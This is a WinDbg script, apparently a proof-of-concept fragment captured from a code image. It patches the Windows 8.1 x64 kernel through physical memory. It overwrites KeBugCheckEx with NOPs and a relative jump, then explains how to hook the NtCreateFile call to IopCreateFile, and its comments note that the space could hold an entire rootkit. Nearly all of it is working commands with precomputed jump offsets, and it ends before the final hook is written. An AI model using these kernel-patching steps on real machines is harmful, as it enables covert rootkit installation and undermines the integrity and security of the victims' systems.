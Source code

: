 ```
 $$
 
 .block
 `{`
   .printf "nt!NtCreateFile physical address %pn", phaNtCreateFile
   .printf "nt!NtKeyBugCheck physical address %pn", phaKeBugCheckEx
 
   $$ now we are going to write our code to KeBugCheckEx. It's only some simple nops operations for the PoC, 
   $$ but we could find enough space to write an entire rootkit
 
   !eb phaKeBugCheckEx 90 90 90 90 90 90 90 90 
   $$ Now lets see the code of nt!NtCreateFile in the target system (win 8.1 x64 ntoskrnl version is 6.3.9600.17668)
   $$
   $$ nt!NtCreateFile:
   $$ fffff803f846020 4c8bdc mov r11,rsp
   $$ fffff803f846023 4881ec88000000 sub rsp,88h
   $$ fffff803f84602a 33c0 xor eax,eax
   $$ fffff803f84602c 498943f0 mov qword ptr [r11-10h],rax
   $$ fffff803f846030 c744247020000000 mov dword ptr [rsp+70h],20h
   $$ fffff803f846038 89442468 mov dword ptr [rsp+68h],eax
   $$ fffff803f84603c 498943d8 mov qword ptr [r11-28h],rax
   $$ fffff803f846040 89442458 mov dword ptr [rsp+58h],eax
   $$ fffff803f846044 8b8424e0000000 mov eax,dword ptr [rsp+0E0h]
   $$ fffff803f84604b 89442450 mov dword ptr [rsp+50h],eax
   $$ fffff803f84604f 488b8424d8000000 mov rax,qword ptr [rsp+0D8h]
   $$ fffff803f846057 498943c0 mov qword ptr [r11-40h],rax
   $$ fffff803f84605b 8b8424d0000000 mov eax,dword ptr [rsp+0D0h]
   $$ fffff803f846062 89442440 mov dword ptr [rsp+40h],eax
   $$ fffff803f846066 8b8424c8000000 mov eax,dword ptr [rsp+0C8h]
   $$ fffff803f84606d 89442438 mov dword ptr [rsp+38h],eax
   $$ fffff803f846071 8b8424c0000000 mov eax,dword ptr [rsp+0C0h]
   $$ fffff803f846078 89442430 mov dword ptr [rsp+30h],eax
   $$ fffff803f84607c 8b8424b8000000 mov eax,dword ptr [rsp+0B8h]
   $$ fffff803f846083 89442428 mov dword ptr [rsp+28h],eax
   $$ fffff803f846087 488b8424b0000000 mov rax,qword ptr [rsp+0B0h]
   $$ fffff803f84608f 49894398 mov qword ptr [r11-68h],rax
   $$ fffff803f846093 e808000000 call nt!IopCreateFile (fffff803ef8460a0)  &lt;-------------------------
 
   $$ to do it easier, we will hook the call to nt!IopCreateFile. This call is at nt!NtCreateFile + 0x73
  
   $$ in the code that we have written in KeBugCheck, we have to put a jmp to continue the execution 
   $$ at nt!IopCreateFile (after the 90 90 90 90 90 90 90 90 that we wrote). Remember that E9 instruction 
   $$ is a relative jump and the value that the instruction admits as parameter is the difference of: 
   $$ target_address - (E9_ins_address+5).
   $$ We need to have precalculated (nt!IopCreateFile)-(nt!KeBugCheckEx+8+5) = 0x002eb6f3 because !eb 
   $$ needs that we pass immediate values
 
   r $t1 = phaKeBugCheckEx
   r $t1 = $t1 + 8
   !eb $t1 E9 f3 b6 2e 00
   $$ finally hook the call nt!IopCreateFile, it will be executed the next time that NtCreateFile was called and it
   $$ will jmp to our code. We need precalculate the relative jump value: (nt!KeBugCheckEx-(nt!NtCreateFile+0x73+5)) = 0xffd14908
```